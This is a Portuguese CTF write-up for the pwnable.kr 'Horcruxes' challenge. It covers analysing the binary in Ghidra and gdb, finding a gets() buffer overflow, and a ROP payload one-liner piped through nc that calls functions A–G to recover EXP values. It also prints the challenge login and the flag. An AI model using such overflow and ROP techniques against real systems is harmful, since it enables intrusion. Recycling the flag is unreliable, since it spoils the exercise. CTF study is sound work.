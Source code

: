 # Duckware Team - Horcruxes (pwnable)
###### Solved by @Antonio-alexandre

> This CTF is about pwn

## Desafio: Horcruxes (Pwn)
#### Introdução

A lógica que o código adota é: uma história baseada em Harry Potter, onde o jogador precisa 'derrotar' o Voldemort. Para isso, o sistema pergunta a quantidade de pontos de experiência que foram coletados após colectar cada Horcrux. Caso o jogador não tenha coletado todas, ele não possuirá pontos de experiência suficientes para enfrentar Voldemort.

- [Página do desafio](http://pwnable.kr/play.php)

#### Análise Inicial

A princípio, nos deparamos com a seguinte descrição: 

> Voldemort escondeu sua alma dividida dentro de 7 horcruxes.
Encontre todas as horcruxes e ROP!
Autor: Jiwon Choi

Além do seguinte código para conectar ao servidor:

`ssh horcruxes@pwnable.kr -p2222 (pw:guest)` 

#### Solução

Assim que conectamos ao servidor, nos deparamos com a seguinte tela:

[![Imagem21.png](https://i.postimg.cc/P54GKkK2/Imagem21.png)](https://postimg.cc/LJn06wc1)

Dentro do servidor, há dois arquivos:

`horcruxes` `readme`

Ao executar `cat readme`, ele nos retorna a seguinte mensagem:

[![Imagem22.png](https://i.postimg.cc/Px00Nfrr/Imagem22.png)](https://postimg.cc/N97dzcHW)

Ao tentar executar o horcruxes, ele nos retorna a seguinte tela:

[![Imagem23.png](https://i.postimg.cc/L4ZrwPNq/Imagem23.png)](https://postimg.cc/CdSPfRyY)

Nesse caso não temos informação alguma. Uma técnica que podemos utilizar é o comando `scp` para baixar os arquivos diretamente do servidor. Para isso, a sintaxe ficará assim:

`scp -r -P2222 horcruxes@pwnable.kr:~/ ./`

Feito isso, iremos abrir o código no `Ghidra` para analisar os binários:

Com o código aberto, identificamos três pontos cruciais:

> A `main` limita certos `syscalls`:

[![Imagem24.png](https://i.postimg.cc/ncGwfG7L/Imagem24.png)](https://postimg.cc/1f4Kp6vx)

> A função `init_ABCDEFG` gera sete números de A-G aleatoriamente:

[![Imagem25.png](https://i.postimg.cc/SxZTJQgF/Imagem25.png)](https://postimg.cc/sMh9LzFw)

> A função `ropme` permite adivinhar um número e chama a função `gets()`, onde nos deparamos com um `bof(Buffer Overflow)`

[![Imagem26.png](https://i.postimg.cc/R06Rh73K/Imagem26.png)](https://postimg.cc/cKWY58BL)

Como o nosso objetivo é explorar o `bof`, precisaremos executar a função `init_ABCDEFG` para gerar os números aleatórios.

O primeiro passo é executar o `gdb` em `horcruxes`, e executar `disas ropme`.

[![Imagem27.png](https://i.postimg.cc/rFw5z13s/Imagem27.png)](https://postimg.cc/DmRSMX23)

Após isso, criamos um breakpoint em `0x080a00e8` e obtemos o endereço de `eax` utilizando o comando `x $eax`.

Obtemos então o endereço: `0xffffdb54`

Após isso, criamos um breakpoint na última chamada (`0x080a0176`). Assim, obtemos o endereço de `esp`: `0xffffdbcc`.

Ao realizar o cálculo, obtemos 120 bytes de lixo entre eles. Ou seja, para que consigamos obter os endereços das `funções A-G` e o endereço do `jmp ropme` dentro da `main`, precisamos enviar esses 120 bytes.

Utilizamos então esse comando para extrair os endereços:

Combinando tudo, e convertendo para little-endian, utilizaremos o seguinte comando:

```
(echo 15; (for i in {1…120}; do printf %s 49; done;) | xxd -r -p; 
echo 4bfe09086afe090889fe0908a8fe0908c7fe0908e6fe090805ff0908fcff0908 0a | xxd -r -p; cat) | nc 0 9032 -q 1
```

Ele nos retorna o seguinte:

```
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:How many EXP did you earned? : You’d better get more experience to kill Voldemort
You found “Tom Riddle’s Diary” (EXP +471258802)
You found “Marvolo Gaunt’s Ring” (EXP ±1275143031)
You found “Helga Hufflepuff’s Cup” (EXP +845677748)
You found “Salazar Slytherin’s Locket” (EXP +194777572)
You found “Rowena Ravenclaw’s Diadem” (EXP +695561867)
You found “Nagini the Snake” (EXP ±1098361773)
You found “Harry Potter” (EXP +401832873)
Select Menu:235604058
How many EXP did you earned? : 235604058
```

Assim então, temos acesso a `flag`:

>`Magic_spell_1s_4vad4_K3daVr4!`
 
